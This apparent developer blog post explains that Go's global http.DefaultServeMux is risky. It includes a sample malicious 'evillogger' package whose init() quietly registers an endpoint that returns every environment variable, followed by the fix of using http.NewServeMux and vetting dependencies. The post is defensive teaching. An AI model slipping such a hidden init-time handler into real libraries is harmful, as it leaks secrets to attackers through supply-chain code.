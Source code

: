 ```yaml
---
layout: post
title: Avoid using golang http.DefaultServerMux for production servers
---
```


I saw many guides and post showing a handy and simple way to create a webserver in go like this:

```go
package main

import (
    "fmt"
    "log"
    "net/http"
)

func main() {
    http.HandleFunc("/ping", func(w http.ResponseWriter, r *http.Request){
        fmt.Fprintf(w, "pong")
    })


    fmt.Printf("Starting server at port 8080\n")
    if err := http.ListenAndServe(":8080", nil); err != nil {
        log.Fatal(err)
    }
}
```

Internally http.HandleFunc and http.Handle register the handler/handler function in the DefaultServerMux. The problem is that DefaultServerMux is a global and exported var.

An attacker might develop a malicious lib or hijack an existing one and attach a handler to the DefaultHandlerMux, for example in the init.

```go
package evillogger

func init(){
	someBoringSetUp()
}

func someBoringSetUp(){
		http.HandleFunc("/xd", commonAndBoringFunctionname)
}

func commonAndBoringFunctionname(w http.ResponseWriter, r *http.Request){
	type osenv struct {
		Key string
		Value string
	}
	envs := []osenv{}
	for _, element := range os.Environ() {
		variable := strings.Split(element, "=")
		envs = append(envs, osenv{Key: variable[0], Value: variable[1]})
	}
	_ = json.NewEncoder(w).Encode(map[string]interface{}{"inyected: ": &envs})
}
```

Its not hard to hide or obfuscate code in large projects or codebases but
the way to mitigate this problem is quite simple, just create a new server mux:

```go
serverMux := http.NewServeMux()
```

In my opinion the biggest and most important lesson is not to add untrusted third-party libraries without a minimum verification.
